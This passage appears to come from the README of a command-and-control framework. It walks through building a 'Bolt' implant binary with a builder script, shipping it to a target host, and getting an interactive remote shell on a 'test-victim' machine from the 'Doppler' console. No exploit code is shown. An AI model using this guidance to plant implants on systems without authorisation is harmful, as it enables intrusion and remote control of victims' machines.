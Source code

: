 With that in mind, lets pick a build type. Here are some common ones:

- windows/amd64
- linux/amd64
- darwin/amd64

There are more available, consult `go tool dist list` for a list of them currently
supported by Go.

> While JetStream has support for all these build types, your mileage may vary.

Once you made your pick, let's fire up JetStream by running (Omit the **.exe** if
you're not building for Windows and replace **<os/arch>** with the chosen target):

```bash
python bin/jetstream -rc js.json -o bolt.exe <os/arch>
```

Now watch the magic happen as it completes your build!

# First Interactions

Once you completed all this! First off, congrats! Second, find a way to ship that
shiny new binary off to the target host you want to run on!

Once you get it there, give it a kick and bring it to life by starting it. Nothing
special will happen on screen, but watch your Doppler shell that we had open earlier.

```text
 > Bolts >
New Bolt Registered: [ABCDEEF0] test @ 192.168.1.50
```

Woot! Now, lets interact with it. On your Doppler shell, type in "ls" in the "Bolts"
menu, you should see something like this:

```text
ID       Hostname            IP               OS        User                            PID      Last
=========================================================================================================
ABCDEEF0 test-victim         192.168.1.50     Linux     test                            12345    1s
```

Now type in the Bolt ID value (ABCDEEF0 in our case) and you'll land into the
interactive shell like so:

```text
 > Bolts > ABCDEEF0 >
```

Now you're ready to Hack the Planet! This shell will take commands just as if you
had direct shell access to the device. Additional functions may be discovered by
using the shell tab completion function and the `help` command.

_More in-depth guides coming soon..._

## Additional Notes

If for some reason Bolts on *nix do not run properly and crash with `libc` errors,
use the following build tags to potentially fix the issue.

```text
netgo,osusergo
```
